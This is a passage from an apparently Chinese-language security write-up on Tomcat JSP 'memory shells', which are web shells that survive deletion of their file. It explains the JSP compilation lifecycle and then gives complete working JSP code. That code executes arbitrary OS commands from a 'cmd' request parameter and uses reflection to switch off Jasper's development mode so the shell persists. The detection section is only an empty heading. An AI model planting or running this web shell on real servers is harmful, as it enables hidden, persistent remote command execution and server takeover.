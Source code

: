 ```java

```
## JSP  
JSP文件作为一种特殊的servlet,其执行的过程比正常的servlet要多一些步骤,在请求jsp文件时,首先tomcat会查看该jsp是否被编译,如果没有的话则将jsp中的代码编译为class文件,然后会存放一组路径和该class文件中的servlet处理的映射关系在Context中,后续再次请求该Jsp文件时,则检查jsp文件是否存在是否被修改需要重新编译,然后再执行对应的servlet逻辑.  
而Jsp内存马的思路就是即使jsp文件被删除,但我们仍然能够通过该jsp的路径执行其中的sevlet代码
### 实现思路
通过jsp的执行过程可以有以下思路.
* 让tomcat接受到请求后不去检查JSP文件是否存在.
* 让tomcat接受到请求后认为jsp文件没有发生任何改变.  

细节可参考:  
https://xz.aliyun.com/t/10372#toc-3  
https://www.anquanke.com/post/id/224698#h2-0  
### 实现代码
```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.mapper.MappingData" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.jasper.EmbeddedServletOptions" %>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();

    //从request对象中获取request属性
    Field requestF = request.getClass().getDeclaredField("request");
    requestF.setAccessible(true);
    Request req = (Request) requestF.get(request);
    //获取MappingData
    MappingData mappingData = req.getMappingData();
    //获取Wrapper
    Field wrapperF = mappingData.getClass().getDeclaredField("wrapper");
    wrapperF.setAccessible(true);
    Wrapper wrapper = (Wrapper) wrapperF.get(mappingData);
    //获取jspServlet对象
    Field instanceF = wrapper.getClass().getDeclaredField("instance");
    instanceF.setAccessible(true);
    Servlet jspServlet = (Servlet) instanceF.get(wrapper);
    //获取options中保存的对象
    Field Option = jspServlet.getClass().getDeclaredField("options");
    Option.setAccessible(true);
    EmbeddedServletOptions op = (EmbeddedServletOptions) Option.get(jspServlet);
    //设置development属性为false
    Field Developent = op.getClass().getDeclaredField("development");
    Developent.setAccessible(true);
    Developent.set(op, false);
%>
```
## 查杀